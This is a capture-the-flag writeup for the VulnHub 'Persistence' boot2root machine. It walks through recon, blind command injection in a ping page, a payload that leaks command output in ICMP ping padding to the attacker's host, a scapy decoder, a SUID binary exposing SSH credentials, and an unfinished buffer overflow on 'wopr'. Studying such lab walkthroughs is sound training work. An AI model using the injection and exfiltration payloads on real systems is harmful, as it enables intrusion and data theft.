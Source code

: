 ```yaml
---
layout: post
title: "Persistence boot2root writeup"
description: "Persistence boot2root writeup"
category: writeups
tags: [boot2root, vulnhub]
---
```

Initial recon shows that only one port is open with a web server running

{% highlight console %}
root@kali:~# netdiscover -i eth0
Currently scanning: 192.168.70.0/16   |   Screen View: Unique Hosts

1 Captured ARP Req/Rep packets, from 1 hosts.   Total size: 102
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.2.105   00:00:de:ad:be:ef      1      42  Unknown vendor
root@kali:~# unicornscan -I -mT 192.168.2.105:a;unicornscan -I -mU 192.168.2.105:a
TCP open 192.168.2.105:80  ttl 64
TCP open                    http[   80]         from 192.168.2.105  ttl 64

{% endhighlight %}
Browsing to the web server, there is a static page with an image.
After a little bit of enumeration we find one other page on the web server(debug.php).
{% highlight bash %}
root@kali:~# nikto -h 192.168.2.105 -C all
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.2.105
+ Target Hostname:    192.168.2.105
+ Target Port:        80
+ Start Time:         2016-06-12 00:50:51 (GMT-4)
---------------------------------------------------------------------------
+ Server: nginx/1.4.7
+ Server leaks inodes via ETags, header found with file /, fields: 0x531fe71e 0x187 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.3.3
+ /debug.php: Possible debug directory/program found.
+ 26171 requests: 6 error(s) and 6 item(s) reported on remote host
+ End Time:           2016-06-12 00:51:18 (GMT-4) (27 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
{% endhighlight %}
Browsing to the page we find a web page which allows us to ping an inputted IP address. <img src="{{site.url}}/assets/persistence-1.png">
I was able to verify that the ping command was working by running a packet capture when I submitted my query
{% highlight console %}
root@kali:~# tcpdump -i eth0 'icmp'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
00:53:29.550594 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 1, length 64
00:53:29.550607 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 1, length 64
00:53:30.550244 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 2, length 64
00:53:30.550267 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 2, length 64
00:53:31.550275 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 3, length 64
00:53:31.550297 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 3, length 64
00:53:32.550300 IP 192.168.2.105 > kali: ICMP echo request, id 61956, seq 4, length 64
00:53:32.550320 IP kali > 192.168.2.105: ICMP echo reply, id 61956, seq 4, length 64
{% endhighlight %}
After experimenting with various inputs I found that you can inject commands by appending a semicolon and adding additional commands.
The only issue is we have blind command injection as the page does not return the output of the commands.
After reading the man page for ping, there is one interesting arguments which can be used to transmit our command output.
The "-p" ping argument allows you specify 16 bytes to fill out the packet you send.
By abusing the "-p" argument and encoding the results of a command we have a working a shell.
Initially, I was trying to transmit 16 bytes at a time but faced issues when decoding a payload which was smaller than 16 bytes.
I gave up transmitting 16 bytes at a time and ended up only transmitting 1 byte at a time.
The below command will stop the first command, execute a command of our choosing and encode the command results in a series of ping packets
{% highlight bash %}
;PAYLOADS=$(ls -l 2>&1 | xxd -c 16 -ps); for PAYLOAD in $PAYLOADS; do ping -c 1 -p $PAYLOAD 192.168.2.103; done
{% endhighlight %}
Initially I was thinking of decoding the ping packets using a shell script with tshark but settled with scapy.
I hacked together the following script which will capture the ping packets, decode them and print the injected command's output.
{% highlight python %}
#!/usr/bin/env python2
from scapy.all import *

while True:
    packetcapture = sniff(timeout=1, filter='icmp[icmptype] == 8')
    for packet in packetcapture:
        if packet.haslayer(ICMP) and packet.getlayer(ICMP).type == 8:
            sys.stdout.write(packet.getlayer(ICMP).load[8])
{% endhighlight %}
The script will output your command output similar to the following.
{% highlight console %}
root@kali:~# ./persistence-ping-decode.py
WARNING: No route found for IPv6 destination :: (no default route?)
uid=498(nginx) gid=498(nginx) groups=498(nginx)
Linux persistence 2.6.32-431.5.1.el6.i686 #1 SMP Tue Feb 11 21:56:33 UTC 2014 i686 i686 i386 GNU/Linux
/usr/share/nginx/html
total 160
-rwxr-xr-x. 1 root root    439 Mar 17  2014 debug.php
-rw-r--r--. 1 root root    391 Mar 12  2014 index.html
-rw-r--r--. 1 root root 146545 Mar 12  2014 persistence_of_memory_by_tesparg-d4qo048.jpg
-rwsr-xr-x. 1 root root   5757 Mar 17  2014 sysadmin-tool
{% endhighlight %}
After getting the ping decode script working, I explored the file system a little bit.
It appeared that nginx was running inside of a chroot with only a few commands avaliable to us.
It also appeared that there was a local firewall dropping traffic.
I ended up downloading the interesting looking 'sysadmin-tool' binary which was being hosted and started investigating.
What was interesting is that that binary has the SUID bit set.
I ran strings against the binary which revealed the following interesting strings:
{% highlight console %}
Usage: sysadmin-tool --activate-service
--activate-service
breakout
/bin/sed -i 's/^#//' /etc/sysconfig/iptables
/sbin/iptables-restore < /etc/sysconfig/iptables
Service started...
Use avida:dollars to access.
/nginx/usr/share/nginx/html/breakout
{% endhighlight %}
It appears that the binary will disable the local firewall and provide login credentials.
I proceeded to run the binary and expected it disabled the local firewall and provided provided login credentials.
{% highlight console %}
root@kali:~# ./persistence-ping-decode.py
WARNING: No route found for IPv6 destination :: (no default route?)
Service started...
Use avida:dollars to access.
{% endhighlight %}
After a quick port scan, we see that SSH is now open. If you SSH in using the provided credentials you'll be dropped into a rbash shell.
{% highlight console %}
root@kali:~# unicornscan -I -mT 192.168.2.105:a;unicornscan -I -mU 192.168.2.105:a
TCP open 192.168.2.105:80  ttl 64
TCP open 192.168.2.105:22  ttl 64
TCP open                     ssh[   22]         from 192.168.2.105  ttl 64
TCP open                    http[   80]         from 192.168.2.105  ttl 64
{% endhighlight %}
Looking around you can see there is a custom program named "wopr" running as root.
{% highlight console %}
-rbash-4.1$ ps aux | grep wopr
root      1092  0.0  0.0   2004   408 ?        S    05:54   0:00 /usr/local/bin/wopr
avida     2149  0.0  0.0   4356   732 pts/0    S+   06:48   0:00 grep wopr
{% endhighlight %}
I proceeded to download the binary and check for bufferoverflows.
{% highlight console %}
root@kali:~# ssh avida@192.168.2.105 "cat /usr/local/bin/wopr" > wopr
avida@192.168.2.105's password:
root@kali:~# ./wopr
[+] bind complete
[+] waiting for connections
[+] logging queries to $TMPLOG
[+] got a connection
*** stack smashing detected ***: ./wopr terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(+0x6929b)[0xf75f329b]
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x37)[0xf7682eb7]
/lib/i386-linux-gnu/libc.so.6(+0xf8e78)[0xf7682e78]
./wopr[0x80487dc]
[0x41414141]
======= Memory map: ========
08048000-08049000 r-xp 00000000 fe:01 1705762                            /root/wopr
08049000-0804a000 r--p 00000000 fe:01 1705762                            /root/wopr
0804a000-0804b000 rw-p 00001000 fe:01 1705762                            /root/wopr
084b4000-084d5000 rw-p 00000000 00:00 0                                  [heap]
f7589000-f758a000 rw-p 00000000 00:00 0
f758a000-f773b000 r-xp 00000000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773b000-f773c000 ---p 001b1000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773c000-f773e000 r--p 001b1000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773e000-f773f000 rw-p 001b3000 fe:01 272686                             /lib/i386-linux-gnu/libc-2.22.so
f773f000-f7742000 rw-p 00000000 00:00 0
f7747000-f7763000 r-xp 00000000 fe:01 265577                             /lib/i386-linux-gnu/libgcc_s.so.1
f7763000-f7764000 rw-p 0001b000 fe:01 265577                             /lib/i386-linux-gnu/libgcc_s.so.1
f7764000-f7765000 rw-p 00000000 00:00 0
f7765000-f7768000 rw-p 00000000 00:00 0
f7768000-f776b000 r--p 00000000 00:00 0                                  [vvar]
f776b000-f776d000 r-xp 00000000 00:00 0                                  [vdso]
f776d000-f778f000 r-xp 00000000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
f778f000-f7790000 r--p 00021000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
f7790000-f7791000 rw-p 00022000 fe:01 272682                             /lib/i386-linux-gnu/ld-2.22.so
ffca8000-ffcc9000 rw-p 00000000 00:00 0                                  [stack]
root@kali:~# python -c 'print "A"*1024' | nc localhost 3333
[+] hello, my name is sploitable
[+] would you like to play a game?
> [+] yeah, I don't think so
{% endhighlight %}
# TODO: Build a working exploit

